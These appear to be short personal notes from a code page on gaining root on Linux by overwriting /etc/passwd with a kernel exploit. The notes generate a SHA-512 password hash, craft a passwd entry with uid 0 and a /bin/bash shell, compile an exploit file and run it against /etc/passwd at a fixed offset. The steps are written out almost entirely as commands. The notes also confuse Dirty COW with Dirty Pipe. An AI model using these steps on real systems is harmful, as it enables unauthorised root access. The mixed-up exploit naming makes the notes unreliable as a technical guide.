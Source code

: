 # To exploit dirty cow we have a file that we are going to overwrite and insert data into. 
	We cannot create files and need one that we can read but still will priv esc. /etc/passwd is great for this
	
## Utilizing Max Kellerman's POC we will do so - https://dirtypipe.cm4all.com/
	
###  Creating a password
	openssl passwd -6 --salt cyb "P@$$W0RD"
		$6$cyb$jHyQnPQT6bgzTbfyKU1Jyx5Vje5b3rvlwEDfX1O1Y/3E0b5HeKDusP9pEqD5NFNyfLy.isggSn.4FPcBkTYks/

### Crafting the exploit and paramters
	First we have to make it into  /etc/passwd format as such adn overwrite an existing user
	'steveirwincyber:$6$cyb$jHyQnPQT6bgzTbfyKU1Jyx5Vje5b3rvlwEDfX1O1Y/3E0b5HeKDusP9pEqD5NFNyfLy.isggSn.4FPcBkTYks/:0:0::/root:/bin/bash
'
### Compile the exploit
	gcc dirtcow.c -o exploit
	
### Run the exploit on the system
	./exploit /etc/passwd 189 'steveirwincyber:$6$cyb$jHyQnPQT6bgzTbfyKU1Jyx5Vje5b3rvlwEDfX1O1Y/3E0b5HeKDusP9pEqD5NFNyfLy.isggSn.4FPcBkTYks/:0:0::/root:/bin/bash
'

	